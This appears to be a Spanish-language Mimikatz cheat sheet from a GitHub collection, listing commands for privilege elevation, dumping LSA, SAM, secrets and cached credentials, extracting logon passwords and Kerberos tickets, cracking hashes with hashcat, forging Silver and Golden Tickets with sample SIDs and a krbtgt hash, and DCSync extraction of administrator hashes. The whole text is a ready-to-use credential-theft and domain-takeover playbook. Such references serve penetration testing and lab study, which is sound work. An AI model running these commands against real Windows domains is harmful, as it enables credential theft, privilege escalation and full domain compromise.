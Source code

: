# Mimikatz Cheat Sheet

#### Correr como Administrador
```
mimikatz# token::elevate
mimikatz# privilege::debug
```

#### Dumpear Hashes
```
mimikatz# lsadump::lsa /patch

hashcat -m 1000 <hash> rockyou.txt
```

#### Password dumping (Para todos los usuarios que iniciaron sesión en el equipo local) - Extraer contraseñas del sistema
```
mimikatz# sekurlsa::logonPasswords /full

Nota: Tener habilitado solamente el privilege::debug
```

#### Password en memoria
```
mimikatz# sekurlsa::tickets
```

#### sam dumping
```
mimikatz# lsadump::sam

Nota: Tener habilitado solamente el privilege::debug y token::elevate
```

#### secrets dumping
```
mimikatz# lsadump::secrets

Nota: Tener habilitado solamente el privilege::debug
```

#### cache dumping
```
mimikatz# lsadump::cache

El valor lo metemos en un archivo con el formato:
$DCC2$10240#USER#VALOR-MsCacheV2

Crackeamos:
hashcat -m 2100 hash-web_svc /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Crear Silver Ticket (SPN)
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<HASH-NTM> /user:<ALGUN-USER-DEL-DOMAIN>

Luego validamos en Windows si esta el Silver ticket:
PS> klist
PS> iwr -UseDefaultCredentials http://web04
```

#### Crear Golden Ticket
```
kerberos::golden /user:Administrator /domain:<CHILD-DOMAIN>
/sid:<SID-CHILD-DOMAIN> /sids:<SID-DOMAIN>-<ID-USER> /krbtgt:<HASH-NT-KRBTGT> /ptt

kerberos::golden /user:Administrator /domain:child.redteam.corp
/sid:S-1-5-21-2332039752-785340267-2377082902 /sids:S-1-5-21-1882140339-3759710628-635303199-519 /krbtgt:24dd6646fd7e11b60b6a9508e6fe7e5a /ptt
``

#### Extraer hashes NTLM cuando el usuario tiene DCSync
```
privilege::debug

lsadump::dcsync /domain:<DOMAIN> /user:<DOMAIN>\administrator
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
